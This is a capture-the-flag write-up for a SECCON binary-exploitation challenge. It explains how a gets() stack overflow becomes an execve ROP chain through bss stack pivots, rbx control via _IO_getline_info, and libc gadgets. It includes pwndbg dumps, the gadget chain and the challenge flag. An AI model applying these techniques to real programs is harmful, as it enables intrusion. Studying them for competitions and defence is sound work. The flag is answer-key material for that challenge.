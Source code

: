 # Make rop great again

No pie, NX bit set, no canary

### Bug:
Stack buffer overflow in the main function using `gets()`.

### Exploit:
We can't do classic ret2libc here cause no `pop rdi; ret` gadget. But we can control the first argument of gets call by jumping in the middle of main function.

```c
   0x00000000004011be <+17>:	lea    rax,[rbp-0x10]
   0x00000000004011c2 <+21>:	mov    rdi,rax
   0x00000000004011c5 <+24>:	mov    eax,0x0
   0x00000000004011ca <+29>:	call   0x401080        <------ gets
```

Stack pivot to bss (`0x404500`) and call gets in there, which will leave some libc function addresses in bss.
```c
22:0110│-410 0x404410 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
23:0118│-408 0x404418 —▸ 0x6fff552045c0 (_IO_2_1_stdout_) ◂— 0xfbad2887
24:0120│-400 0x404420 —▸ 0x404460 —▸ 0x404480 —▸ 0x4044e0 —▸ 0x404520 ◂— ...
25:0128│-3f8 0x404428 —▸ 0x6fff55092795 (__GI__IO_file_underflow+357) ◂— test rax, rax
26:0130│-3f0 0x404430 ◂— 0
27:0138│-3e8 0x404438 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
pwndbg> 
28:0140│-3e0 0x404440 —▸ 0x6fff55202030 (_IO_file_jumps) ◂— 0
29:0148│-3d8 0x404448 ◂— 0x7fffffe0
2a:0150│-3d0 0x404450 —▸ 0x6fff55203964 (_IO_2_1_stdin_+132) ◂— 0x5520572000000000
2b:0158│-3c8 0x404458 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
2c:0160│-3c0 0x404460 —▸ 0x404480 —▸ 0x4044e0 —▸ 0x404520 —▸ 0x404820 ◂— ...
2d:0168│-3b8 0x404468 —▸ 0x6fff550955c2 (_IO_default_uflow+50) ◂— cmp eax, -1
2e:0170│-3b0 0x404470 —▸ 0x404830 ◂— 0
2f:0178│-3a8 0x404478 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
pwndbg> 
30:0180│-3a0 0x404480 —▸ 0x4044e0 —▸ 0x404520 —▸ 0x404820 —▸ 0x4047c0 ◂— ...
31:0188│-398 0x404488 —▸ 0x6fff55086f6a (_IO_getline_info+170) ◂— cmp eax, -1
32:0190│-390 0x404490 ◂— 0
33:0198│-388 0x404498 ◂— 0x552038e0
34:01a0│-380 0x4044a0 —▸ 0x404811 ◂— 0x6262626262626262 ('bbbbbbbb')
35:01a8│-378 0x4044a8 ◂— 0xa /* '\n' */
36:01b0│-370 0x4044b0 —▸ 0x6fff552f0740 ◂— 0x6fff552f0740
37:01b8│-368 0x4044b8 —▸ 0x404810 ◂— 0x6262626262626262 ('bbbbbbbb')
pwndbg> 
38:01c0│-360 0x4044c0 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
39:01c8│-358 0x4044c8 —▸ 0x404020 (stdin@GLIBC_2.2.5) —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
3a:01d0│-350 0x4044d0 ◂— 0
3b:01d8│-348 0x4044d8 —▸ 0x6fff5532d000 (_rtld_global) —▸ 0x6fff5532e2e0 ◂— 0
3c:01e0│-340 0x4044e0 —▸ 0x404520 —▸ 0x404820 —▸ 0x4047c0 ◂— 0
3d:01e8│-338 0x4044e8 —▸ 0x6fff550871de (gets+366) ◂— mov rcx, qword ptr [r13]
3e:01f0│-330 0x4044f0 ◂— 0
3f:01f8│-328 0x4044f8 ◂— 0
pwndbg> 
40:0200│-320 0x404500 —▸ 0x7ffed16a86b8 —▸ 0x7ffed16a92a3 ◂— './chall_patched'
41:0208│-318 0x404508 ◂— 1
42:0210│-310 0x404510 ◂— 0
43:0218│-308 0x404518 —▸ 0x403dc8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401140 (__do_global_dtors_aux) ◂— endbr64 
44:0220│-300 0x404520 —▸ 0x404820 —▸ 0x4047c0 ◂— 0
45:0228│-2f8 0x404528 —▸ 0x4011cf (main+34) ◂— mov eax, 0
```

Stack pivot again (`0x404800`) to preserve the libc address. Now we can use the add_addr32 gadget to build execve rop chain in bss.
```c
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
```

But we don't have control of the `ebx` register here? And there are no gadgets which lets us control `ebx`.
or is it?

There was a similar challenge in [Project sekai ctf 2022](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/pwn/gets/) where the author found a way to control `ebx` by overwriting saved `rip` of `_IO_getline_info` function which is called inside the `gets()` call.

```c
 ► 0x7eb0cc486f9e <_IO_getline_info+222>        pop    rbx     RBX => 0x22897     <----- Control ebx/rbx
   0x7eb0cc486f9f <_IO_getline_info+223>        pop    r12     R12 => 0
   0x7eb0cc486fa1 <_IO_getline_info+225>        pop    r13     R13 => 0
   0x7eb0cc486fa3 <_IO_getline_info+227>        pop    r14     R14 => 0
   0x7eb0cc486fa5 <_IO_getline_info+229>        pop    r15     R15 => 0
   0x7eb0cc486fa7 <_IO_getline_info+231>        pop    rbp     RBP => 0x404465
   0x7eb0cc486fa8 <_IO_getline_info+232>        ret                                <main+40>
```

How can we control overwrite saved `rip` of `_IO_getline_info`?
Set the first argument of `gets()` call to `rsp-0x70` (or something closer, 0x70 worked for me).

Now we collected all the pieces to exploit the program. Build a rop chain in bss using leftover food and stack pivot AGAIN to trigger the rop.

Final rop chain in bss:
```c
25:0128│-320 0x404428 —▸ 0x7eb0cc4b502c (strndup+76)               ◂— pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
26:0130│-318 0x404430 ◂— 0
27:0138│-310 0x404438 —▸ 0x7eb0cc6038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
pwndbg> 
28:0140│-308 0x404440 —▸ 0x7eb0cc602030 (_IO_file_jumps) ◂— 0
29:0148│-300 0x404448 ◂— 0x7fffffe0
2a:0150│-2f8 0x404450 —▸ 0x7eb0cc603964 (_IO_2_1_stdin_+132) ◂— 0xcc60572000000000
2b:0158│-2f0 0x404458 —▸ 0x7eb0cc510a4d (eval_expr_multdiv+157)    ◂— pop rsi
2c:0160│-2e8 0x404460 ◂— 0
2d:0168│-2e0 0x404468 —▸ 0x7eb0cc50f75b (__spawnix+875)            ◂— pop rdi
2e:0170│-2d8 0x404470 —▸ 0x404830 ◂— 0
2f:0178│-2d0 0x404478 —▸ 0x7eb0cc4eef34 (execve+4)                 ◂— mov eax, 0x3b; syscall
```

Flag: `SECCON{53771n6_rd1_w17h_6375_m4k35_r0p_6r347_4641n}`

Exploit: [hack.py](./hack.py)
